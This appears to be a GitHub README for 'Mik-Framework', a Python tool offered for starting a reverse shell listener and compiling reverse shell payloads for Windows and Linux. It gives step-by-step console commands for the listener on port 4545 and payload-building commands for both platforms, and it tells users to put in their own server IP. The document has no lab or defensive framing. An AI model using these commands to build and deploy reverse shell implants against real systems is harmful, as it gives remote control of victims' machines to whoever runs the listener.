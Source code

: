 # Mik-Framework

Mik-Framework is a Python tool for starting a reverse shell server and compiling payloads for Windows and Linux.

## Usage

To start the reverse shell server, run the following command:

```~/Mik-Framework $ python3 mikconsole.py```

This will open the Mik-Framework console, where you can interact with the available modules. To start the reverse shell server, follow these steps:

1. Select the revshell module:
   ```mik> use revshell```

2.  Configure the host and port:

```mik-revshell> set host 0.0.0.0
mik-revshell> set port 4545```

4. Run the server:
   ```mik-revshell> run```

## Payload Compilation

### Windows

To compile a payload for Windows, use the following command:

```python3 nous.py -p windows_revshell --host 127.0.0.1 --port 4545 -o payload.c --mingw```

### Linux

To compile a payload for Linux, use the following command:

```python3 nous.py -p linux_revshell --host 127.0.0.1 --port 4545 -o payload.c```

Make sure to replace 127.0.0.1 with the IP address of your server and 4545 with the port you want to use.

## Creating New Modules

You can create new modules to extend the functionality of Mik-Framework. Simply follow the existing module structure and integrate it into the framework.
